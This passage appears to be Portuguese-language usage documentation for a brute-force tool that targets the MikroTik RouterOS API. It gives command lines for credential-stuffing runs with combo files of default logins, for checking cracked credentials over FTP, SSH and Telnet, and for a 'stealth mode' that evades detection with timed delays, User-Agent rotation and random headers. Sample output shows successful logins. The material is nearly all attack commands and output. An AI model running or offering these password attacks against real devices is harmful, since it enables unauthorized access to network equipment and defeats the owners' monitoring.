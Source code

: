 ### 3. Teste com Arquivo Combo

```bash
# Teste com arquivo combo (user:pass)
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -d wordlists/combo.lst
```

**Estrutura do arquivo combo:**
```
admin:123456
user:password
manager:admin
administrator:mikrotik
root:12345
```

### 4. Teste com Validação de Serviços

```bash
# Teste com validação pós-login
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --validate ftp,ssh,telnet
```

**Saída esperada:**
```
[SUCCESS] [API] admin:123456
[SUCCESS] [REST] admin:123456
[VALIDATION] FTP login successful for admin:123456
[VALIDATION] SSH login successful for admin:123456
[VALIDATION] TELNET login successful for admin:123456
```

## 🔧 Exemplos Avançados

### 1. Teste com Stealth Mode

```bash
# Teste com stealth mode ativado
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --stealth --threads 1
```

**Características do Stealth Mode:**
- Delays Fibonacci (1, 2, 3, 5, 8, 13, 21, 34, 55 segundos)
- Rotação de User-Agent
- Headers aleatórios
- Jitter aplicado

### 2. Teste com Fingerprinting

```bash
# Teste com fingerprinting do dispositivo
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 --fingerprint
```
